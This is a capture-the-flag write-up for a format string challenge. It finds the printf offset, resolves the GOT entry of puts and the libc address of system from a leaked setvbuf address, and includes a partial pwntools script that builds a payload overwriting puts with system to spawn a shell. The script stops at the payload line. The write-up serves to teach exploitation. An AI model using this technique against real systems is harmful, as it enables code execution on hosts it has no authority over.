 Since printf(buf) is used, it seems that this can also be attacked with FSB.

Furthermore, since puts(normal_string)(normal_string="/bin/sh") is executed, if you rewrite the address of puts to the address of the system function, you will be able to start the shell and get the flag.

    offset when printf
    puts on GOT
    Address of system function on libc

Three pieces of information are required.

You can see that the offset at printf is 38 by inputting %n$p to the instance. 

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/format_string3]
└─$ ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fd5148ab3f0
%38$p
0xa7024383325
/bin/sh
```

When you check the puts on the GOT with gdb, you can see that it is 0x401080.

```css
(gdb) p puts
$1 = {<text variable, no debug info>} 0x401080 <puts@plt>
```

The address of the system function on libc is calculated based on the address of setvbuf output by the instance, since the address of the function on libc seems to change every time.
Calculate the difference between setvbuf and system from libc.so.6, and add that difference to the address of setvbuf when actually accessing the instance.
I implemented this using pwntools as follows.

```python
import sys
from pwn import *
from pwnlib.elf.elf import *
from pwnlib.fmtstr import *

context.arch='amd64'

fs3 = ELF('./format-string-3')
got_puts = fs3.got['puts']
print(f'got_puts: {hex(got_puts)}')

libc = ELF('./libc.so.6')
libc_system = libc.symbols['system']
print(f'libc_system: {hex(libc_system)}')
libc_setvbuf = libc.symbols['setvbuf']
print(f'libc_setvbuf: {hex(libc_setvbuf)}')

host = sys.argv[1]
port = int(sys.argv[2])
r = remote(host, port)

m = r.recvregex(b'libc: 0x([0-9a-f]+)\n', capture=True)
matched_string = m.group(0).decode()
log.info(f'matched_string: {matched_string}')
loaded_libc_setvbuf = int(m.group(1).decode(), 16)

loaded_libc_system = loaded_libc_setvbuf + (libc_system - libc_setvbuf)
log.info(f'loaded_libc_system: {hex(loaded_libc_system)}')

loaded_libc_system_lower = loaded_libc_system & 0xffffffff
format_string = fmtstr_payload(38, {got_puts:loaded_libc_system}, numbwritten=0, write_size='byte')
```